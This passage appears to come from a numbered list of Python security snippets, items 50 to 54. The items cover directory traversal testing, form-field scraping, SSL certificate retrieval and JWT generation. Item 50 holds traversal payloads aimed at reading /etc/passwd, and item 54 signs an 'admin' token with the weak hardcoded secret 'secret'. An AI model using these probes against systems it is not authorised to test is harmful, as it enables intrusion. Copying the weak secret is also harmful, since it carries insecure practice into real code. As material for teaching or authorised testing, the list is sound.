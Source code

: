 ### 50. **Directory Traversal Vulnerability Automation**
```python
import requests
paths = ['../../../../etc/passwd', '....//....//....//etc/passwd']
for path in paths:
    response = requests.get(f'http://example.com/{path}')
    if 'root' in response.text:
        print(f'Vulnerable path: {path}')
```

### 51. **Web Scraping Form Fields with `BeautifulSoup`**
```python
from bs4 import BeautifulSoup
import requests
url = 'http://example.com/form'
response = requests.get(url)
soup = BeautifulSoup(response.content, 'html.parser')
for form in soup.find_all('form'):
    for input_tag in form.find_all('input'):
        print(input_tag.get('name'))
```

### 52. **Checking for SSL Vulnerabilities with `ssl`**
```python
import ssl
import socket
hostname = 'example.com'
context = ssl.create_default_context()
conn = context.wrap_socket(socket.socket(), server_hostname=hostname)
conn.connect((hostname, 443))
cert = conn.getpeercert()
print(cert)
```

### 53. **Basic Web Scraping with `requests` and `BeautifulSoup`**
```python
import requests
from bs4 import BeautifulSoup
url = 'http://example.com'
response = requests.get(url)
soup = BeautifulSoup(response.text, 'html.parser')
print(soup.prettify())
```

### 54. **JSON Web Token (JWT) Generation**
```python
import jwt
token = jwt.encode({"user": "admin"}, "secret", algorithm="HS256")
print(token)
```
